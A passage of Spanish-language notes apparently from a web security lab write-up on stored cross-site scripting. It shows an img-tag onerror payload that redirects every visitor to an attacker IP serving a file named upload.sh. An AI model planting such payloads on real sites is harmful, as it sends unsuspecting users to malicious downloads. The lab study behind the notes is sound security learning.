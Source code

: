 >He inyectamos un payload que direccione al usuario victima a nuestra IP y al archivo infectado:

```html
<img src="x" onerror="
  window.location.href = 'http://IP:80/upload.sh';
">
```

![\1](/Attachments/Pasted%20image%2020250608180508.png)

>El payload queda almacenado en la web, y ahora siempre que un usuario ingrese a la pagina será direccionado a nuestro servidor y a nuestro archivo malicioso:

![\1](/Attachments/Pasted%20image%2020250608180647.png)

>No estamos haciendo mucho daño con un payload así, pero, con ello ya se puede intuir lo peligroso que seria inyectar algo mas complejo y ofuscado en un lugar que almacena las entradas de usuario sin sanitizar. 
>Ahora, vamos por el laboratorio de XSS con Dropdowns:

![\1](/Attachments/Pasted%20image%2020250608235412.png)

